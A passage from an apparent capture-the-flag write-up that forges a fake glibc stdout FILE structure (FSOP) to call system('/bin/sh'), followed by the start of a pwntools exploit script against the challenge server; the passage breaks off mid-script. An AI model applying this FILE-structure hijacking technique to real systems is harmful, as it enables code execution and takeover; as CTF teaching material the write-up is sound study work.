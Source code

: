so we forge a FSOP like this:

```python
# some constants
stdout_lock = libc.address + 0x21ba70   # _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x0000000000163830  # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']            # the function that we will call: system()
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')  # will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200          # _wide_data just need to points to empty zone
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

# write our fake stdout over the real one
write( bytes(fake))
```

and at the end write it over the `FILE` structure, and we will get instant shell...finish !

### 4 - The final exploit

here is the final exploit commented

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("devpro_patched")
libc = ELF("./libc.so.6")

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

host ,port = 'blackhat.flagyard.com','31704'
if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

def open(idx):
  sla('> ', '1')
  sla('> ', str(idx))

def close():
  sla('> ', '5')

def alloc(size):
```